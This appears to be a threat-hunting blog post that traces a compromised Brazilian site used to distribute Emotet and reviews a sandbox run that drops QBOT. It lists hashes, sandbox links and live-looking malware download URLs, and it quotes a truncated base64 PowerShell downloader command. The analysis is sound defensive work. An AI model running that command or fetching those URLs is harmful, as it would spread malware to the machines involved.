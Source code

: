 ```yaml
---
layout: post
title:  "Threat Hunting Report"
description : The following are examples of how we perform Threat Hunting reports for our clients.
tags: Threat-Hunting, IOC, any-run, virus-total, hash, powershell
---
```


> Please provide what details you are able to gather about the following URL.
> This is something we might commonly be provided by a Crimeware client as part of a standard research and mitigation request. As with our service these requests can be pretty open 
> ended.
> With that in mind go as far as you feel is required to provide a sufficient response and highlight what might need to be included in a takedown to prospect our client or their
> customers. 
> Make sure to identify if the domain or related IOCS are hacked, or setup by a malicious actor and any valid files, hashes ETC.

```ruby
https://www.actacomunicacao.com.br/provisorio/docs/mq57mhq07gy/
```

To start off on any investigation I like to just do a quick Google search to see if anyone else has looked at the same thing. A good number of times this will help speed up an investigation, additionally it provides some already timestamped and openly available information that can be shared with a provider.

## A quick search of the provided URL returns multiple resources mentioning it exactly. The best part here is these are hits on the exact URL we are looking for.

![alt text](https://Rayferrufino.github.io/assets/pic1.png "Logo Title Text 1")

## I will highlight a few of these below:

```python
https://urlhaus.abuse.ch/url/428853/
https://paste.cryptolaemus.com/emotet/2020/08/10/emotet-malware-IoCs_08-10-20.html
https://paste.cryptolaemus.com/emotet/2020/08/12/emotet-malware-IoCs_08-12-20.html
```

It would appear that the URL is possibly tied to Emotet in some way. We continue to investigate some of these public posts on the URL and quickly can find a good number of doc files posted on Urlhaus tied to the exact url. 

```python
https://urlhaus.abuse.ch/url/428853/
https://urlhaus.abuse.ch/host/www.actacomunicacao.com.br/
```

![alt text](https://Rayferrufino.github.io/assets/pic2.png "Logo Title Text 1")

## Taking the earliest posted sample as an example we are given the following:

```python
File: FILE_ET5654085637AL.doc	
MD5 70fbdde86b9ae6a733975dc0980ea712
SHA-1 bae75e0727170969890336eb60f875267ddc0e35
SHA-256 0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13
```

## Searching for the file hash gets you yet another publicly posted blog mentioning it and how its tied to Emotet:

```ruby
https://paste.cryptolaemus.com/emotet/2020/08/10/emotet-malware-IoCs_08-10-20.html
```


## A quick check on Virustotal for the file also shows bit more about how the file might be used:

```ruby
https://www.virustotal.com/gui/file/0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13/relations
```

![alt text](https://Rayferrufino.github.io/assets/pic3.png "Logo Title Text 1")

```ruby
https://www.virustotal.com/gui/file/0edb0478a03da835ad18ca5571a31731a6cf1922642d5ffd2940ec40dfdbae13/behavior/Lastline
```
![alt text](https://Rayferrufino.github.io/assets/pic4.png "Logo Title Text 1")

Reviewing the behavior and relationship tabs of the above report we see multiple URLs which might be an indication the file is either being dropped, reaching out to or somehow doing something with some of these.

## Online sandbox report:

```ruby
https://app.any.run/tasks/800484d8-7d39-40ef-a4ac-3ba54481696b/
```
![alt text](https://Rayferrufino.github.io/assets/pic5.png "Logo Title Text 1")

From the report we see a call to PowerShell with a long string of characters followed by a new binary being spawned.

## This is a base64 encoded block in a request like the one below:
```ruby
>> powersheLL -e JABWAEgAVQBLAFEAZgBmAHcAPQAnAEEASABEAEoAQgByAGcAYgAnADsAWwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAIgBzAEUAYABDAFUAUgBJAGAAVABZAFAAYABSAG8AdABvAGAAYwBvAEwAIgAgAD0AIAAnAHQAbABzADEAMgAsACAAdABsAHMAMQAxACwAIAB0AGwAcwAnADsAJABXAFEAUQBNAEQAcwBnAGEAIAA9ACAAJwA3ADEAMgAnADsAJABRAEwAUABF….
```

#  Static code analysis:
The PowerShell code is acting as a downloader with a hardcoded list of URLs to iterate through.

![alt text](https://Rayferrufino.github.io/assets/pic6.png "Logo Title Text 1")

## This is also seen being executed in the call graph within the sandbox report.

![alt text](https://Rayferrufino.github.io/assets/pic7.png "Logo Title Text 1")


## Taking one of the URLs from the list: 
```ruby
http://iraniansk.com/wp-content/rm1q_q6x4_l5/
```
We can see it dropped a file during the sandbox run.


## Dropped file:

```ruby
File: rm1q_q6x4_l5 (identified as emotet)
MD5 16BF0F7A0D8008AEF4FDECCD749C7830
SHA1 6AB5FE9A8CF33D8043E7FF3CF6880CA8FB375D20
SHA256 12C0DEAECAFCF3A79D6EF2097E1F0CCC7F72017D7612F45DE8AFB99943FC4875
```
## Searching for this file we find multiple public reports as well:

```ruby
https://feodotracker.abuse.ch/browse/host/74.120.55.163/
```

```ruby
https://app.any.run/tasks/800484d8-7d39-40ef-a4ac-3ba54481696b/
```


# Dynamic analysis:

## Submitting the dropped binary to a public sandbox further points to it being related to Emotet.

```ruby
https://capesandbox.com/submit/status/49440/
```
![alt text](https://Rayferrufino.github.io/assets/pic8.png "Logo Title Text 1")

![alt text](https://Rayferrufino.github.io/assets/pic9.png "Logo Title Text 1")


Additionally, we can confirm from the extracted config above that the PowerShell based request below and the immediate traffic after are related. 

![alt text](https://Rayferrufino.github.io/assets/pic10.png "Logo Title Text 1")

# Summary:

In summary the URL h[xx]ps://www.actacomunicacao.com.br/provisorio/docs/mq57mhq07gy/ appears it was for some period of time used as an Emotet distribution point. Reviewing the site and domain history it is likely this site was hacked, and the attacker used this compromised site to distribute their malware. Further research into how such a site would typically be used leads to a useful repository of data https://github.com/NavyTitanium/Misc-Malwares/tree/master/Emotet


## From the dropped documents we see they contained macro code that would be used to download the actual Emotet binary from URLs similar to the ones below:
```ruby
•	http://iraniansk.com/wp-content/rm1q_q6x4_l5/
•	http://kachetemarketing.com/cgi-bin/9yxsy_nq02_x2tv/
•	http://kinotheque.com/wp-includes/aidu_9c8_rrlp/
•	https://onyourleftracing.com/cgi-bin/fotes_4l_enxguwo/
•	http://slimgenemd.com/hqzfg/z_ya_xkjx5/
```


> Starting with the previous sandbox report describe what is going on, what malware is being dropped and what infrastructure might be important here. Include IOC data that would be useful in blocking and mitigating the relevant threats here. 

```ruby
File: "08142020_121494057.doc"  
MD5: 81FEF56212815515D22B62D3824EF5AF
SHA1: 8DDE045FA14ADC846B3B0F6302C8D8B249895641 
SHA256: 37CFFED69A1601C82615DE5B8C319B35B09C6B7A6F9E879AD9997309FBCC7775
https://app.any.run/tasks/24d633a6-a75f-490a-b091-cac7617e1c9b/
```
Reviewing the sandbox report above we see a few interesting parts. To start we see a document triggering multiple sub processes and files being written after a PowerShell execution. Additionally we see an http request to a URL 
```ruby 
http://rijschoolfastandserious.nl/rprmloaw/111111.png
```
which could be the source of some of the activity we are seeing.
![alt text](https://Rayferrufino.github.io/assets/pic11.png "Logo Title Text 1")

## Reviewing the process graph we see a clearer breakdown of events. We also see the highlighted QBOT process being spawned by the activity kicked off by PowerShell.
![alt text](https://Rayferrufino.github.io/assets/pic12.png "Logo Title Text 1")

## Looking at the IOC section of the report we can see some useful data to dig into.

Looking specifically at the file being requested via the HTTP Requests tab we download a copy of the file to analyze. 
> (7125EA5182AD4B5E0C5AFF3764E0BFC4)
